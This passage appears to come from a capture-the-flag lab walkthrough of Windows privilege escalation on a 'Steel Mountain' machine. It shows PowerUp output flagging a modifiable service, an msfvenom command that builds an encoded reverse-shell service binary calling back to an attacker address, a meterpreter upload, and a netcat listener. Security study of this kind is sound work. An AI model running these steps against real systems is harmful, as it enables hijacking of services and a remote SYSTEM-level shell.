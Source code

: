 ```bash
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit; IdentityReference=STEELMOUNTAIN\bill;
                 Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe;
                 IdentityReference=STEELMOUNTAIN\bill; Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths
...
```

The scan reveals a vulnerable service with an executable that we can manipulate and that can be restarted.  
We'll craft a malicious executable and replace the vulnerable service binary.

```bash
root@ip-10-10-95-132:~/workspace# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.95.132 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of exe-service file: 15872 bytes
Saved as: Advanced.exe
```

Upload and replace the service binary, then restart the service.

```bash
PS > ^C
Terminate channel 4? [y/N]  y
meterpreter > upload /root/workspace/Advanced.exe
[*] Uploading  : /root/workspace/Advanced.exe -> Advanced.exe
[*] Uploaded 15.50 KiB of 15.50 KiB (100.0%): /root/workspace/Advanced.exe -> Advanced.exe
[*] Completed  : /root/workspace/Advanced.exe -> Advanced.exe
```

On another terminal tab start a listener

```bash
root@ip-10-10-95-132:~/workspace# nc -lvnp 4443
Listening on [0.0.0.0] (family 0, port 4443)
```
